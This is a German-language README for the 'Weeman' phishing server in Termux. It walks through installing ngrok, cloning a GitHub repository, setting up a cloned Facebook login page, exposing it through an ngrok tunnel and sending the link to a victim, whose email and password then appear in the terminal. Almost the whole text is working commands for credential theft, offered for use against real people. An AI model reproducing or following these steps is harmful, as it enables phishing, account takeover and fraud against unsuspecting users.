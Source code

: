 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. cd /sdcard/download
2. unzip ngrok.zip
3. cp ngrok $HOME
4. cd $HOME
5. ls
6. chmod 777 ngrok
7. ./ngrok
8. ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE


  apt update && apt upgrade

dann TIPPE


  pkg install git

kopieren den folgenden Link


  git clone https://github.com/GottModusTermux/G0D

  ls

  cd G0D/weeman

  pkg install python2

  ls

  python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

  set url yoursite.com

-Befehl 2 

  set port 8080

-Befehl 3 

  set action_url yoursite.com
  
-Befehl 4

  run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE

  cd G0D/weeman

  python2 weeman.py

  set url https://www.facebook.com/

  set port 8080

  set action_url https://www.facebook.com/

  run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-gehe zum Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... )
  > cd G0D

  > ./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort in dem Termux Fenster "weeman" einsehen
(hochscrollen und "user: " | "pass: "suchen)

sobald "ngrok" beendet wird, ist der erstellte Link nicht mehr erreichbar !! 


HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.
